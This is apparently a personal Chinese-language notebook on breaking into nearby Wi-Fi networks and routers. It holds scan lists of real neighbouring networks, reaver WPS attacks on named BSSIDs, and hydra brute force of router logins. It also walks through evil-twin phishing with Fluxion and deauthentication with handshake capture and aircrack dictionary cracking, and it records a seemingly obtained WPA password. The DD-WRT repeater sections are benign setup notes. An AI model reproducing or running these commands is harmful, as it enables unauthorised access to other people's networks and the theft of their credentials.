98:BC:57:6C:E4:FC  12  00  1.0  No   ChinaNGB-Yd2SQK
98:BC:57:5B:A5:7E  13  00  1.0  No   ChinaNGB-Yd7TU2
00:16:78:4D:D2:78   3  00  1.0  No   JYJS
7C:08:D9:E7:17:D1   1  00  1.0  No   ChinaNGB-321
68:9F:F0:5A:98:F5   8  00  1.0  No   ChinaNet-X3ey
BC:D1:77:29:EC:A0   1  00  1.0  No   Wu LieJian
F4:B8:A7:6C:34:BC   6  00  1.0  No   ChinaNet-TA5N
F4:B8:A7:68:2C:B0   8  00  1.0  No   ChinaNet-aSsQ
08:10:7A:28:99:0E  11  00  1.0  No   ChinaNet-2.4G-990E
D0:C7:C0:5F:91:3C  11  00  1.0  No   TP-LINK_913C
7C:08:D9:D6:08:FE   1  00  1.0  No   ChinaNGB-KiTN
8E:BE:BE:26:A7:D3  10  00  1.0  No   Xiaomi_Hello_adDx
F0:B4:29:FE:38:53   1  00  1.0  No   小米666
10:6F:3F:DA:4D:A4   8  00  1.0  No   106F3FDA4DA4-1
F4:CB:52:09:BE:50   3  00  1.0  No   2201
28:6C:07:67:42:6E   4  00  1.0  No   Xiaomi_426D
08:3F:BC:BC:07:EF   5  00  1.0  No   ChinaNet-cVjp
F4:EE:14:00:93:DC  11  00  1.0  No   MERCURY
E0:28:61:C3:59:AC   5  00  1.0  No   ChinaNet-wqD6
8C:BE:BE:26:A7:D1  10  00  1.0  No   Xiaomi_A7D0
D4:67:E7:0C:AC:B1   1  00  1.0  No   ChinaNet-a9MG










BSSID              Ch  dBm  WPS  Lck  ESSID
--------------------------------------------------------------------------------
E4:D3:32:B4:83:BC   9  -81  1.0  No   MERCURY_210
98:BC:57:5B:A5:7E  13  -73  1.0  No   ChinaNGB-Yd7TU2
18:44:E6:73:CA:CF   1  -75  1.0  No   ChinaNet-VTka          reaver -i wlan0mon -b 18:44:E6:73:CA:CF -vv  ❌
98:BC:57:6C:C1:B3   1  -77  1.0  No   ChinaNGB-YdXfJX
DC:2A:14:1A:00:F2   3  -71  1.0  No   ChinaNGB-onshine
14:75:90:08:4D:5E   6  -67  1.0  No   lys                     reaver -i wlan0mon -b 14:75:90:08:4D:5E -vv  ❌
68:9F:F0:5A:98:F5   8  -57  1.0  No   ChinaNet-X3ey
5C:63:BF:FE:8A:B8   8  -57  1.0  No   ChinaNet-8AB8
B8:08:D7:51:A4:48   8  -59  1.0  No   HUAWEI  403
FC:19:D0:3E:07:67   8  -67  1.0  No   ChinaNGB-Ljf9hf
D0:60:8C:42:F6:9A  10  -45  1.0  No   ChinaNet-3KXp
54:BE:53:5A:B9:47  11  -65  1.0  No   ChinaNet-6xkb
E0:28:61:81:FA:20  11  -45  1.0  No   ChinaNet-UXjM
F0:B4:29:21:07:A5  11  -65  1.0  No   G-family
D4:61:2E:BE:61:33  11  -65  1.0  No   HUAWEI-KTNNYX
78:A1:06:F4:F0:CE  11  -61  1.0  No   TP-LINK_F4F0CE
78:C1:A7:0B:88:4E  11  -59  1.0  No   ZTE-2.4G-0B884E
F4:EE:14:00:93:DC  11  -57  1.0  No   MERCURY
28:6C:07:43:98:8C   1  -59  1.0  No   Tommy's appartment
08:10:7A:1D:9E:A7   1  -63  1.0  No   ChinaNet-2.4G-Home  HuA
98:BC:57:5D:30:5A   1  -63  1.0  No   ChinaNGB-YdPmCF
FC:19:D0:4C:0E:6A   3  -55  1.0  No   ChinaNGB-1607
B8:08:D7:76:FF:88   5  -57  1.0  No   HW_001
20:DC:E6:EF:C5:76   6  -61  1.0  No   TP-LINK_EFC576
60:BB:0C:DB:33:ED   6  -53  1.0  No   ChinaNet-2XSV
BC:D1:77:B3:11:C0   6  -61  1.0  No   TP-LINK_B311C0
8C:21:0A:90:08:AC   6  -59  1.0  No   MERCURY_9008AC
20:DC:E6:41:2A:F4   6  -55  1.0  No   philips
A8:57:4E:A7:47:2C  11  -59  1.0  No   UU
2A:6C:07:D9:6B:F1  13  -65  1.0  No   Xiaomi_6BF0_VIP
D0:60:8C:41:B0:EA   3  -61  1.0  No   ChinaNet-m77z
84:C9:B2:87:AC:8A   6  -63  1.0  No   dlink
EC:88:8F:54:66:60   6  -63  1.0  No   wqs12
EC:88:8F:BB:99:BC   6  -59  1.0  No   FAST_BB99BC
D4:A1:48:92:30:C4   6  -57  1.0  No   appleshi_2.4G
98:BC:57:5F:83:5B  12  -63  1.0  No   ChinaNGB-Ydm93P
98:BC:57:5B:A5:FF  12  -57  1.0  No   ChinaNGB-YdxPch
7C:08:D9:DB:2C:CA   1  -57  1.0  No   ChinaNGB-602
98:F4:28:02:1C:37   1  -57  1.0  No   ChinaNet-NMZp
38:83:45:FD:82:12   1  -63  1.0  No   tingting
98:BC:57:70:62:A9  13  -63  1.0  No   ChinaNGB-YdM7rV
98:BC:57:4E:C4:6E   1  -61  1.0  No   ChinaNGB-YDVa2n
08:C0:21:2E:AE:D4   1  -63  1.0  No   CMCC-i6Eb
C4:C7:55:3D:65:5E   1  -61  1.0  No   ChinaNet-pDQn
7C:08:D9:B2:8E:92   1  -69  1.0  No   ChinaNGB-239309
08:10:7A:28:2E:F6   1  -63  1.0  No   ChinaNet-2.4G-2EF6
C4:C7:55:0F:85:31  11  -63  1.0  No   ChinaNet-9d2f
D4:76:EA:89:F1:CF   2  -59  1.0  No   ChinaNet-EsuN
A8:15:4D:FD:2F:10   6  -65  1.0  No   tang_1003
C8:E7:D8:37:B4:08   1  -65  1.0  No   ADMIN-2401
F0:B4:29:D1:69:C3   3  -65  1.0  No   5G就是它
08:3F:BC:BC:07:EF   5  -61  1.0  No   ChinaNet-cVjp
















































实例2 18:44:E6:73:CA:CF   1  00  1.0  No   ChinaNet-VTka
🔅 reaver -i wlan0mon -b 18:44:E6:73:CA:CF -vv
后面不能加 -a 不知为什么..  开始等吧..




⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

🔵 路由器登录密码破解. ✔︎
================================================================================

    成功连接到对方路由后，下面我需要做的就是连接路由的 WEB 管理界面
    首先尝试路由器的默认登录密码!!! 本文就是直接用123456 登录进去了..

    就算对方改了路由器默认登录密码.还是有办法的!!!
    不少路由器厂家.为了后期维护方便.在管理固件中留下后门!! 我们可以利用
    http://routerpwn.com/     这个网站去找对应的路由器品牌.本文不深入这个..



    字典暴力破解 很有效. 一般设置这个都是非常常用的密码.
    暴力破解 最好确定对方的用户名..  不然组合太多了.



    🔸 端口扫描工具 查找路由器的网页端口.

        一.扫描路由器端口为了路由器的安全，网管通常都会将路由器的默认端口(80)给更改掉，
        所以我们破解路由器密码的第一步就是必须要找到路由器的wEB管理端口。 　　
        如果路由器上的UPnP(通用即插即用，是一组协议的统称)功能是开启的(通常路由器默认情况下UPnP都是开启的)，
        那么路由器一定会开放一个1900端口。 有这个端口的 那肯定就是路由器了.

        一般肯定是80端口的.
        ✘✘∙𝒗 Desktop nmap 192.168.11.1
            Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-05-05 08:12 CST
            Nmap scan report for 192.168.11.1
            Host is up (0.0033s latency).
            Not shown: 998 filtered ports
            PORT     STATE SERVICE
            80/tcp   open  http
            1900/tcp open  upnp


    🔸 简单破解:
        一般要破解两个东西. 用户名 和 密码.
        个别路由器只要破解一个密码就可以了. 如水星的.. 直接输入123456 就进去了....


        (1)管理员帐号密码是出厂值，就直接试下几个常用初始帐号密码。
        例如：“admin、admin";"root、root";"user、user";“admin、password”，
        但如果是管理员用户名和密码已经修改过了，那就要去破解了。


    🔸 暴力破解.
        参考 hydra.txt   这个可以爆破 ssh、mysql、web登录页面 等等...

        hydra -s 80 -l admin -P /root/Desktop/rockyou.txt 192.168.11.2 http-get /admin/
                -s 80 是指定目标端口.
                -l admin 指定用admin 做对方账户.
                -P /root/Desktop/rockyou.txt 指定密码字典. 会尝试里面的每一个密码.
                http-get   目标的攻击方法.
                /admin/    这个必须有. 原因未知!!!!!

                一般几分钟就能跑出来密码.


















⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--DDWrt 刷机---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

❤️  6300v2 刷DDwrt.
================================================================================


    Netgear 默认不支持wpa2加密方式的中继.只能先刷机.
    参考教程 https://www.chiphell.com/thread-957807-1-1.html

🔵  R6300v2 版本
================================================================================

    其实有两个版本的.硬件虽然一模一样.但是刷机时候固件有区别!!!  
        普通版本 R6300v2  
        定制版本 R6300v2CH (Charter ISP)

        👁‍🗨 版本判断方法1: 路由器正面 底边的颜色.  黄色的是普通版本!!! 蓝色的是定制版本!!!

        👁‍🗨 版本判断方法2: 路由器网页管理界面 ➜ 高级 ➜ 管理 ➜ 路由器状态 ➜ 路由器信息 ➜ 查看固件版本: 
            普通版是: V1.0.2.33_1.0.35
            定制版是: V1.0.2.33_1.0.35CH   里面有ch就是定制版.

    🔸 定制版本(美版) 
        默认wifi名一般是MyCharterWiFixx 
        固件版本号后面带“CH”，不能刷普通官方固件，刷DD必须用kong大的CH版专用固件
        无线设置 ➜ 地区 只能选择美国. 不像普通版全球都能选的.

    🔸 普通版本
       默认的wifi名称一般是：NETGEARxx


🔵 固件下载
================================================================================

    🔸 固件格式
        固件有两种格式: CHK BIN
            Chk 是主要固件.一般用于原生固件 刷 ddwrt 时候使用
            Bin 相当于固件更新.刷了dd之后. 升级用的.

    🔸 固件版本
        R6300V2的DD固件主流的大致有三个版本——
            1、Brain大，资深，DDWRT德国人团队里的老大；
            2、DDWRT官方，为R6300V2专门发布的固件；
            3、Kong大，此乃大神不解释，特色是固件版本更新和他的情绪变化一样快..
                我的最终选择是大名鼎鼎的Kong大

    🔸 Kong 固件下载地址:  http://www.desipro.de/ddwrt/K3-AC-Arm/
 
    🔸下载主要固件: dd-wrt.k3_r6300v2.chk 
        👁‍🗨 注意 如果你的6300是 定制版本的.那就下载dd-wrt.k3_r6300v2ch.chk 

    🔸下载更新固件: dd-wrt.v24-K3_AC_ARM_STD.bin


🔵 刷机步骤
================================================================================

    🔸 刷回原厂固件

        刷任何非官方固件之前，请先刷回原厂固件再恢复出厂设置!!!!！
        刷任何非官方固件之前，请先刷回原厂固件再恢复出厂设置!!!!！
        刷任何非官方固件之前，请先刷回原厂固件再恢复出厂设置!!!!！

        别直接从DD刷到TT之类的··不然会很麻烦··！！

        ❗️️❗️❗️R6300V2原厂固件 http://www.downloads.netgear.com/files/GDC/R6300V2/R6300v2-V1.0.4.2_10.0.74.zip
        如果升级到别的dd固件遇到问题 就刷这个原厂固件可以!!! 
        刷完这个固件后netgear的固件版本是 v1.0.4了 原来是V1.0.2.33


            👹 此固件文件不正确！请再次获取固件文件，确定是用于此产品的正确固件。
                如果你不刷回原厂固件.很有可能遇到这个问题.解决办法就是刷回原厂固件.
                必须是原厂的.直接去netgear官网去下载!!!!


            🔸 恢复出厂设置: 
                开机 & 路由器背面reset按钮 按10秒+ 就可以了

                如果你之前刷过别的固件 必须先刷回netgear官方默认的固件.
                如果原来就是netgear默认固件. 那么恢复出产设置后再刷ddwrt!

            🔸 恢复出产设置2
                web界面 ➜ 高级 ➜ 管理 ➜ 备份设置 ➜ 恢复出产设置.


    🔸 刷ddwrt chk主要固件
        用网线或者无线 把电脑连接到路由器. 然后登录 192.168.1.1  admin/password
        在网件的固件升级界面(高级➜ 管理➜ 路由器升级)里浏览下载的DD的chk固件（dd-wrt.K3_R6300V2.chk），然后上传

    🔸 更改中文界面
        更改DDWRT的界面语言，Administration下面Language Selection找到Chinese Simplified，保存；

    🔸 刷ddwrt 更新包.
        在DDWRT的固件管理里，导入dd-wrt.v24-K3_AC_ARM_STD.bin文件，升级。完成后重启，再设置自己的WAN和LAN等，完毕。
        PS：刷完BIN文件才为完整版的DDWRT。然后就可以来设置 wifi中继了.







⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--无线中继---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

🔸 WDS  
         WDS (Wireless Distribution System)无线分布式系统，是无线连接两个接入点（AP）的协议
    ❗️❗️❗️ 中继只要知道主路由器的各种设置参数就可以. 不需要设置WDS,忘了wds. 只会干扰你思路.❗️❗️❗️
    ❗️❗️❗️ 中继只要知道主路由器的各种设置参数就可以. 不需要设置WDS,忘了wds. 只会干扰你思路.❗️❗️❗️
    ❗️❗️❗️ 中继只要知道主路由器的各种设置参数就可以. 不需要设置WDS,忘了wds. 只会干扰你思路.❗️❗️❗️


🔵 无线模式
================================================================================

    dd-wrt的六种无线模式，看了再也不会稀里糊涂了。

    1. 访问点 (AP)
        该模式下路由器的无线网卡就像一个”无线HUB”，负责建立无线路由器和电脑之间的数据链路（相当于无形的网线）。正常情况下，家用的无线路由器的无线连接都默认工作在此模式下。

    2. 客户端 (Client)
        像笔记本电脑上的无线网卡那样工作，仅连接其它的无线网络，而不发射自己的无线网络信号。对于无线路由器来说，这种模式相当于启用了一个无线的WAN口，且下面的电脑只能通过有线方式接到此设备。该模式下无线路由器仍然提供DHCP及NAT功能，内部四个LAN口组成的单独IP地址段局域网，通过无线路由器上自己的网关，连上外部主网络。

    3. 客户端网桥 (Client Bridge)
        和“客户端”模式一样，相当于启用了一个无线的WAN口，且下面的电脑只能通过有线方式接到此设备。不过，内部的LAN口组成的局域网和连接上的无线网段处于相同的IP地址段。内部的DHCP请求也会被转发到主无线网络上。

    4. AdhocAdhoc
        有个形象的比喻，就像是将两台电脑之间直接找根网线连起来，只不过在这里这根网线是个无线的。最常见的使用adhoc连接的设备多数是一些手持游戏机。该模式在无线路由器上使用的场合比较罕见。

    5. 中继 (Repeater)
        顾名思义，中继就是一边是接受信号，一边又发射自己的无线信号。
        在这种模式下无线路由器以无线网卡客户身份接入主AP，然后再以新增虚拟界面(Virtual Interfaces)来为客户端提供无线接入。
        该模式的最大意义在于可以解决无线信号受到距离或者障碍物的影响不能传输到更远的问题。这种模式下无线路由器仍然提供DHCP及NAT功能，即所有的内部LAN口以及无线客户接入组成的是一个单独的局域网网段。

    6. 中继桥接 (Repeater Bridge)
        和”中继”模式一样，可以解决无线信号受到距离或者障碍物的影响不能传输到更远的问题。
        不过，接入到该无线路由器上的电脑终端，是和主无线网网络处在相同的IP地址段。内部的DHCP请求，也会被转发到主无线网络上。
        
    总结：
        正常情况下，无线路由器工作在“AP”模式下。没有特殊需求的人别去折腾它。一般也就用的上中继(Repeater) 和 中继桥接(Repeater Bridge) 这两个模式.

        网上大多数采用的都是 Repeater 模式，但使用这个模式后，中继无线路由器下的网络是独立的，和主无线网络是不能直接互访的。
        其实，我们可以采用 Repeater Bridge 模式，在此模式下，中继无线路由器下的网络和主网络是在一起的。

        如果已有的无线路由器和笔记本电脑之间隔的墙壁太多（比如想和邻居家共享上网），可能会碰到窗子附近信号还可以，而房间里面信号太弱的情况。
            这时候，再买一台dd-wrt路由器，设置成“中继”的方式就可以解决信号传输距离不足的问题。至于选择“中继”还是”中继桥接”，就要看自己的需求了。
                例如被中继的网络也是自己家的，那么建议使用“中继桥接”。这样可以使所有的电脑都在同一网段，互访起来比较方便。
                如果想自己另建一个独立的网段来提高安全性，那就选“中继”模式吧。
                   👁‍🗨 一般来说，如果网络术语里面的带有”桥(bridge)”字眼，多数是指在两个网络在数据链路层面被连接起来，都处在同一个IP局域网内。

        ❗️❗️❗️中继模式只有一个SSID，而桥接模式每个路由器都有一个独立的SSID，且可以分别设置密码❗️❗️❗️
        ❗️❗️❗️中继模式只有一个SSID，而桥接模式每个路由器都有一个独立的SSID，且可以分别设置密码❗️❗️❗️
        ❗️❗️❗️中继模式只有一个SSID，而桥接模式每个路由器都有一个独立的SSID，且可以分别设置密码❗️❗️❗️





❤️ 无线中继桥接
================================================================================

    🔵 基础知识
        Netgear 默认只能进行wep加密方式的中继桥接,  不支持wpa加密方式的桥接的!!所以要刷 ddwrt 来支持wpa加密方式的中继桥接.

        ❗️中继桥接 = 中继 + 桥接
            中继: 两路由器的 SSID、信道、频段带宽、加密方式、加密算法、密码、都必须一样才能实现中继.
            桥接: 就是把两个路由器分到一个网断里面去.也就是主路由器的网段. 
            
            👁‍🗨 如果只中继不桥接那么 两个路由器的网段是不同的! 也就是两个路由器下的设备不能实现互相访问.
            👁‍🗨 信道:  必须首先将主路由器的频道/信道改为固定的数值, 不要使用自动!!!


    🔵 网络环境
        2台无线路由器，
            主要无线路由器默认IP 是 192.168.11.1 
            中继无线路由器默认IP 是 192.168.1.1                     



    🔵 主路由器信息

        对方路由器的配置信息很重要. 中继路由器各种设置是根据主路由器的设置来的.

        SSID: MERCURY_210
        信道: 9              👁‍🗨 要用无线中继必须选择固定信道. 如果是自动的那就手动选一个信道.
        模式: 11bgn mixed
        频段带宽: 20MHz

        加密方式: wpa-psk/wpa2-psk
        认证类型: 自动
        加密算法: AES
        PSK 密码: njs236121


    
    🔵 中继路由器.
        主要设置都在中继路由器上进行. 主路由器什么都不用设置!只要指定信道就可以了!!!
        👁‍🗨 恢复出厂设置: 管理 ➜ 出厂预设值 ➜ 恢复出厂设置

    🔸 更改登录帐号密码 (可选)
    🔸 设置中文界面     (可选)

    🔸 5G 设置
        改 5G ssid 默认2.4g、5g的ssid名都是 ddwrt, 容易混淆.5g的ssid名改成 dd-wrt-5G
        改 5G 密码: 无线 ➜ 无线安全 ➜ 

    🔸 2.4G 中继设置 - ssid相关
        ddwrt ➜ 无线 ➜ 基本设置 ➜  无线物理接口2.4g ➜ 
        
            无线模式:     中继桥接
            无线网络模式: 混合
            SSID:         MERCURY_210
            无线频道:     9
            频道宽度:     20

        然后点击应用. 不是保存

    🔸 2.4G 中继设置 - 无线密码设置
        ❗️❗️❗️这里是设置 必须和主路由器的设置一模一样!❗️❗️❗️
        ❗️❗️❗️这里是设置 必须和主路由器的设置一模一样!❗️❗️❗️

        2.4G物理接口的无线安全设置:
        安全模式: wpa2 personal
        wpa算法: AES
        wpa密钥: njs236121
        然后应用..

    🔸 2.4G 添加虚拟接口

        2.4g下 ➜ 虚拟接口 ➜ 添加 ➜ 
        SSID: DDwrt-Bridge  
        ap独立 必须开启 2.4g的 wifi才能用!!!
        其余全部默认
        然后重启下路由器, 现在 2.4G和5G wifi应该都能用了

        👹 这个虚拟接口不能删除. 不然好像5G的也上不去网. 留着吧.



    🔸 连接测试

        这里中继桥接就差不多完成!! 手动断开网线重连中继路由器. 
        你就会发现....中继路由器 分配出来的ip地址 变成... 192.168.11.105   变成了主路由器的网段了....
        说明已经连上对方的路由器了.
        用网线连 中继路由器的Lan口 可以直接上网了!
        用无线连 中继路由器的 DDwrt-5g 也可以用


    🔸 设置中继路由器IP

        你会发现...  中继路由器的web界面没有了...虽然有线和5g的无线能上网.但是2.4g的无线不能.
        中继路由器的默认IP地址是 192.168.1.1 
        我们现在获得的IP地址是 192.168.11.1 
        两个ip 根本不在一个网段内. 你是不可能连上 192.168.1.1的
        办法就是 手动设置电脑IP. 成 192.168.1.1网段的. 如
            ip: 192.168.1.11
            掩码: 255.255.255.0
            路由器: 192.168.1.1
        现在浏览器再输入 192.168.1.1 就进入ddwrt的界面了.
        把 ddwrt 的路由器ip 改成 192.168.11.2 吧... 
        以后要进入ddwrt的设置界面就不用手动设置ip这么麻烦了.
        然后记得把电脑ip重新设置成自动获取.
        现在 浏览器用 192.168.11.2 就可以进入 ddwrt的界面了.









⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--Wifi 信号分析----⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
万事俱备.就差中继路由器的摆放位置了.

安装无线网络并不是一直很简单的事情。
邻居的网络干扰，来自于其他电子设备的无线杂音等都会引起严重的连接问题，出现错误，
您不得不一遍又一遍的尝试，现在，有一个更好的解决方式：NetSpot会帮助您完成这些工作！

位置非常非常只要. 好的位置有1M+的网速. 查的位置几KB 甚至连不上...
这就需要 wifi 信号分析仪器了. 
我这里只说Mac的软件..win的自己谷歌吧..

🔵  netspot 扫描器

    首先官网安装免费版本的 netspot 扫描器

🔵 NetSpot WiFi Reporter
    下载链接 http://xclient.info/s/netspot-wifi-reporter.html#history_versions
    为免费的NetSpot WiFi 扫描器 增加了先进的可视化及强大的报告功能。新的可视化热图包括：

    频率波段覆盖
    PHY模式覆盖
    无线传输速率
    下载/上传速度
    无线网络故障排除

    NetSpot WiFi Reporter 特性：

    支持802.11 a/b/g/n/ac WiFi标准，支持2.4GHz + 5GHz双频段
    为您的测量工程提供高级可自定义的导出功能
    不限数量的可同时观测的接入点
    超级灵活的分组，可根据接入点的SSID、频道等分组，再加上自定义的分组，高效便捷
    通过自定义别名更好的管理接入点
    非常便捷的检测您无线网络的问题区域，并提供解决建议
    无需专业背景知识：简单、快速的无线数据分析
    NetSpot WiFi Reporter 是最佳的网络分析、优化工具，无论是专业人员还是家庭用户都是不二之选

    其他NetSpot WiFi Reporter特性(NetSpot扫描器是必要的):

    活动无线的实地勘测并带有功能全面的互联网下载和上传速度
    隐藏网络发现及扫描
    可配置的测量自动保存
    热图上的接入点自动预测性定位
    收集所有相关网络的详细参数


🔵 使用方法
    首先包着笔记本. 开着这个软件. 去找 信号最强的位置..

    最后发现... 2.4G的比5G的快多了. 不知为什么..














⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--Fluxion 破解---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

🔵 简介
    可以迅速帮你检查所需要的插件并进行安装,在短时间内搭建出一个完整的钓鱼环境。
    而且在新版中增加了对中文的支持，这是国外好多安全工具没有的。

🔵 工作原理（大体步骤）

　　1.扫描周围WIFI信号
　　2.抓取握手包(这一步的目的是为了之后验证WiFi密码是否正确)
　　3.使用WEB管理界面
　　4.启动一个假的AP实例来模拟真的AP
　　5.会生成一个MDK3进程。该进程会取消对连接到目标网络的所有用户的认证，可以诱使他们连接到FakeAP并输入WPA密码。
　　6.启动伪DNS服务器以捕获所有DNS请求并将它们重定向到运行攻击脚本的主机.
　　7.随后会弹出一个窗口提示用户输入正确的WiFi密码
　　8.用户输入的密码将和第二步抓到的握手包做比较来核实密码是否正确
　　9.一旦提交正确的密码，攻击将自动终止.这个程序是自动化运行的，并且能够很快的抓取到WiFi密码


🔵 fluxion 最新地址:   https://github.com/wi-fi-analyzer/fluxion


🔵 安装依赖 & 启动:
    👁‍🗨 fluxion目录下有一个‘Installer.sh’脚本文件，运行后会自动更新或安装缺少的工具。

    apt-get install git

    git clone https://github.com/Xu-Jian/fluxion
    cd fluxion && ls
    ./fluxion



git clone https://github.com/FluxionNetwork/fluxion
这个是官网的. 有时候下载不了. 最新版本 最好翻墙去这里下!!!


    这里的命令 不能在ssh中执行.需要到虚拟机中去..

    运行这个 ./fluxion首先检测软件的所需依赖.
    没安装的 就去安装!!!! 如:
    🔸Dhcpd
        apt-get update
        apt-get dist-upgrade
        apt-get install isc-dhcp-server -y

    🔸Hostapd
      sudo apt-get install hostapd dnsmasq

    🔸lighttpd
      sudo apt-get install lighttpd

    🔸php5-cgi
      ❗️❗️❗️❗️ apt-get install php-cgi
      不要用   apt-get install php5-cgi
      
      kali 2016 默认用的是 php7 不是php5 .
      这里安装 php-cgi 就可以了.


🔵 选择语言 ➜ 6 
🔵 选择网卡 ➜ 1     网卡的话需要大家自己分辨，但是信道选项一般都是选择第一个 
🔵 选择信道 ➜ 1     
    选择完后它会对网卡周围的WiFi进行扫描，扫描到你要破解的WiFi后按Ctrl+C停止。

    👹 这里会中文乱码..

      locale -a 查看当前系统支持的字符集。

      解决策略：
      （以下 的步骤中，可能有冗余的地方，毕竟是自己亲自摸索的，有些地方还是有些不大确定。）
      1.在命令行输入”dpkg-reconfigure locales”。进入图形化界面之后，（空格是选择，Tab是切换，*是选中），选中en_US.UTF-8和zh_CN.UTF-8，确定后，将en_US.UTF-8选为默认。
      2.安装中文字体，”apt-get install xfonts-intl-chinese “和” apt-get install ttf-wqy-microhei”
      3.重启
      4.这时发现网页不乱码，系统也不乱码，但是是英文的界面。打开系统设置，找到设置语言的地方，将语言再改为汉语（中国），再重启。
      5.这时发现系统又变为中文的界面了。


🔵  ctrl c  然后选择一个目标 wifi   

🔵 选择目标后 出现WIFI的基本信息及攻击选项 选择‘1 伪装AP’

🔵 输入握手包存放路径 我们按回车使用默认路径


🔵 选择抓取握手包的工具 我们选择第一个 aircrack-ag套件

🔵 选择攻击方式 我们选择‘1’对所有目标发起deauthentication攻击
    mdk3 攻击方式参考 http://ixuehua.blog.163.com/blog/static/25995203820163285235464/


🔵 出现两个窗口，
一个是deauthentication攻击，此时连在目标路由器的客户端会强制解除验证解除连接掉线；
另一个是aircrack等待抓取握手包，客户端在掉线后重新连接时会抓取握手包。
当在aircrack窗口出现WPA handshake时证明已经抓到握手包，
然后我们选择‘1 检查握手包’

🔵 选择获取密码的方式，
第一种 web注入 也是我们今天只要介绍的 
第二种跑包（暴力破解）之前的文章已经说过 这里我们选泽‘1’



🔵 选择web页面语言，
包括了大部分路由器品牌的页面，
当然我们也可以根据自己的需要在 /fluxion/Sites/ 修改页面。本次演示我们选择7 中文通用页面

这时fluxion会调用多个工具对原有路由器进行攻击，并迫使客户端连接到我们伪造的ap中，
同时对dns进行欺骗将客户端流量转到我们的钓鱼页面


手机会断开原来的wifi 并连接到我们伪造的ap 并弹出认证页面 
由于对dns进行了转发，所以即时关闭认证页面 只要打开任意页面都会转到到这


这时只要用户打开浏览器，就会转到输入WiFi密码的页面。


在通过对比密码正确后，fluxion会关闭伪造的ap 使客户端重新连接到原来的ap 并给出ap密码 退出程序


有问题. 明明密码对的也 提示不对..
试试 其他语言的就可以了...

这里是不会劫持 https网站的.只对http网站有效.



👁‍🗨 最后的钓鱼界面. 
1 有问题!!!
2 netgear 可用.
3 也可用..











⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--字典破解----⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

🔵 airmon-ng               查看是否支持监控模式  
🔵 airmon-ng start wlan0   开启监控模式. 现在用ifconfig 会发现 wlan0 变成 wlan0mon了.
🔵 airodump-ng wlan0mon    查看周围wifi详细信息
    ❗️ 记住要破解wifi的信道和BSSID (也就是路由器的Mac地址);   按Ctrl-C结束.

🔵 airodump-ng -c 3 --bssid 6c:b0:ce:bd:d1:5b -w ~/ wlan0mon   选择一个wifi来抓握手包
      -c      对方wifi 信道
      --bssid 对方wiif bssid
      -w      抓包数据的保存位置

      Station 下面的就是连接的用户...  记住一个用户的mac地址.
      用下面马上介绍的攻击命令来使得这个用户重新连接路由器. 这样就能快速获取握手包了.

🔵 强制某设备重连路由器.
    👁‍🗨 这里注意  要新开一个终端来执行下面命令.现在还不能停止上面的抓包...
    aireplay-ng -0 2 -a 6c:b0:ce:bd:d1:5b -c dc:37:14:16:d2:79 wlan0mon
      -0 表示发起攻击 
       2 好像是攻击次数.不管.
      -a 指定无线路由器BSSID
      -c 指定强制断开的设备

      这里如果你用这个命令攻击自己的手机. 
      这时候去看手机就会发现wifi断开几秒 然后重连了.说明这个攻击命令有有效的.
      手机重连后等几秒就能在 上一步的第一行就

      ❗️❗️ 如果获取了握手包.
      CH  6 ][ Elapsed: 3 mins ][ 2017-04-26 07:55
      这行会变成类似... 多出个 handshake 来.这时候就说明抓到握手包了.可以停止抓包了.
      CH  3 ][ Elapsed: 42 s ][ 2017-04-26 07:56 ][ WPA handshake: 6C:B0:CE:BD:D1:5B

🔵 抓包文件
    🔅 cd ~
    🔅 ls -l
        total 332
        -rw-r--r-- 1 root root 293246 Apr 26 07:32 -01.cap
        -rw-r--r-- 1 root root    568 Apr 26 07:32 -01.csv
        -rw-r--r-- 1 root root    584 Apr 26 07:32 -01.kismet.csv
        -rw-r--r-- 1 root root   3786 Apr 26 07:32 -01.kismet.netxml

        好几个文件. 主要就是 .cap 文件.
        每次抓包都会自动给你重命名. -01.cap ; -02.cap ; -03.cap... 等等.方便你区分.

🔵 结束监听模式
    airmon-ng stop wlan0mon

🔵 准备字典

    Kali Linux自带的rockyou字典:  cd /usr/share/wordlists/rockyou.txt.gz
    解压后才能用：                gzip -d /usr/share/wordlists/rockyou.txt.gz

    cd /usr/share/wordlists/rockyou.txt
    这文件很大的 11111111 88888888 都在里面.说明这个字典还是不错的.

🔵 破解(VM Kali):

    sudo aircrack-ng -a2 -b 6C:B0:CE:BD:D1:5B -w /usr/share/wordlists/rockyou.txt /root/-01.cap
        -a2 不管.
        -b 后面是 路由器Mac地址.
        -w 后面是 字典路径
        /root/-01.cap 是 .cap 文件路径

🔵 破解(Mac): 复杂密码字典 (22万条.3MB大小文件. 真实密码在文件尾部.)
    👁‍🗨 22万条密码.两分钟也就跑完了. 很快的. 重点是密码字典!!!
    sudo aircrack-ng -w /Users/v/Desktop/dic/cain.txt -b 6c:b0:ce:bd:d1:5b /tmp/airportSniffCd2nGz.cap
